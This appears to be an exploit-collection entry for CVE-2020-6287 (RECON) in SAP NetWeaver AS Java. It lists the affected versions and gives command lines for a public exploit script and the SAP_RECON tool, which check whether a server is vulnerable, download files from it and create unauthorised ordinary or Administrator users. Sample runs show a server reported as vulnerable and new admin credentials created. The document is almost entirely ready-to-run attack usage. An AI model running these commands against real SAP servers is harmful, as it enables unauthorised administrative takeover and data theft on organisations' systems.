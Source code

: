# CVE-2020-6287 SAP NetWeaver AS JAVA 任意管理员添加

影响版本：
- 7.30
- 7.31
- 7.40
- 7.50

exp(sap-CVE-2020-6287-add-user.py):
```
python .\sap-CVE-2020-6287-add-user.py http://vulIP:50000/ test123 test@123123
```
exp2(RECON.py):
[chipik/SAP_RECON](https://github.com/chipik/SAP_RECON)
Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server
3. `-u` - create user SAP JAVA user with  `Authenticated User` role 
4. `-a` - create user SAP JAVA user with  `Administrator` role


Ex.: Download zip file

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```


Ex.: Create SAP JAVA user

```
~python RECON.py -H 172.16.30.8 -u
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user. sapRpoc5484:Secure!PwD9379
Ok! User were created
```

Ex.: Create SAP JAVA Administrator user

```
~python RECON.py -H 172.16.30.8 -a
Check1 - Vulnerable! [CVE-2020-6287] (RECON) - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user sapRpoc5574:Secure!PwD7715 with role 'Administrator'
Ok! Admin user were created
```
[@duc-nt](https://github.com/duc-nt/CVE-2020-6287-exploit)  
[@chipik](https://github.com/chipik/SAP_RECON)